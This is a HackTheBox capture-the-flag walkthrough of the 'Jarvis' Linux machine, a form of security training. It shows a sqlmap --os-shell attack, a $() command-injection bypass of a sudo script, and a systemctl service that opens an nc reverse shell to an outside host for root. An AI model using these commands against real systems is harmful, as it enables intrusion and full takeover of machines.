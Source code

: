 # Jarvis - HackTheBox
## Linux - Medium

### Nmap
Nmap shows that ports 22/SSH and 80/HTTP are open.

### HTTP 
Going to the IP on port 80, we see a website for a hotel. Looking around we see a SQLi in the URL: `http://10.10.10.143/room.php?cod=1 -- - hello`.

### LFI + RCE
Using SQLMap, we can easily get a reverse shell through an LFI:
```bash
sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell
```
Once we get this reverse shell, I upload another one that connects to me via `tcp` to avoid being banned from too many request on the website.

### First PrivEsc
We are in as `www-data`. Trying `sudo -l`, we see that we can run the script `/var/www/Admin-Utilities/simpler.py` as user `pepper`.

This script is some kind of admin util, but has a serious vulnerability in these lines:
```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```
which are executed when we run the script with the `-p` flag.

We can bypass the check of bad characters for command execution by using `$(command)`, e.g.,
```bash
sudo -u pepper ./simpler.py -p
Enter an IP: "$(id > /tmp/out)"
cat /tmp/out
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
```
We can get a shell as user `pepper` by executing a reverse shell that way.

### Second PrivEsc
As user `pepper`, we see that we can execute the binary `/bin/systemctl` which has the SUID bit set for `root`. Looging at GTFObins, we see that we can get arbitrary code execution as root:
```bash
echo '[Service]
Type=oneshot
ExecStart=/bin/nc -e /bin/bash 10.10.15.250 1337
[Install]
WantedBy=multi-user.target' > /dev/shm/privesc.service
systemctl link /dev/shm/privesc.service
systemctl enable --now /dev/shm/privesc.service
```
Listening on our box on port 1337, we immediatly get a root shell.

Note: the script in GTFO puts the service in `/tmp`. This won't work... It needs to be in another folder, `/dev/shm` works.
